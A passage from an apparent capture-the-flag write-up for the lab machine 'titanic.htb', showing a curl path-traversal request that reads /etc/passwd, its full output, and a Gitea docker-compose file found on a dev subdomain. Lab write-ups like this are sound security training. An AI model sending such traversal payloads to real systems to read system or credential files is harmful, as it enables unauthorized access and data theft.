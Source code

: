 Since `titanic.htb` is vulnerable to path traversal, we begin by reading /etc/passwd.

```jsx
┌──(kali㉿kali)-[~]
└─$ curl "http://titanic.htb/download?ticket=..//..//..//..//etc/passwd" 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
```

### Extracting Gitea Configuration

While exploring `http://dev.titanic.htb/developer/docker-config/src/branch/main/gitea/`, we found an XML file containing Gitea’s `docker-compose` configuration:

```xml
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```
